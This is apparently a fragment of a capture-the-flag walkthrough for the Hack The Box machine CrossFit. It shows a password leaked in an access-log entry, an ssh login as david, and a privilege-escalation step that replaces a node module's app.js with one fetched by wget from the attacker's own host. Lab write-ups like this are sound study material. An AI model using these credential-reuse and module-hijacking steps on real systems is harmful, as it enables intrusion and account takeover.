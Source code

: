 david:NWBFcSe3ws4VDhTB  
  
  
  
cat access.log --->  
  
  
  
  
  
10.10.10.232 - - \[01/Apr/2021:14:13:06 -0400\] "GET /RECV?data={%22sender\_id%22:2,%22content%22:%22Hello%20David,%20I%27ve%20added%20a%20user%20account%20for%20you%20with%20the%20password%20NWBFcSe3ws4VDhTB.%22,%22roomId%22:2,%22\_id%22:3075} HTTP/1.1" 404 490 "http://employees-crossfit.htb/a2ba575503da.html" "Mozilla/5.0 (X11; OpenBSD amd64; rv:82.0) Gecko/20100101 Firefox/82.0"  
  
  
  
  
  
ssh david@10.10.10.232  
  
  
  
and then type sh to get a more usable shell  
  
  
  
  
  
  
  
  
  
9) -- Privesc for user John --  
  
  
  
script app.js to be replaced with the original one that will be recalled by the user john --->  
  
  
  
  
  
Formatted script for unix  
  
  
  
dos2unix app.js  
  
  
  
\- And then we execute these commands, quickly because there is autoclean:  
  
  
  
cd /opt/sysadmin  
  
mkdir node\_modules  
  
cd node\_modules  
  
cp -r /usr/local/lib/node\_modules/log-to-file .  
  
cd log-to-file  
  
rm app.js  
  
wget <Your\_IP>/app.js  
  
  
  
or used my script john.sh--  
  
  
  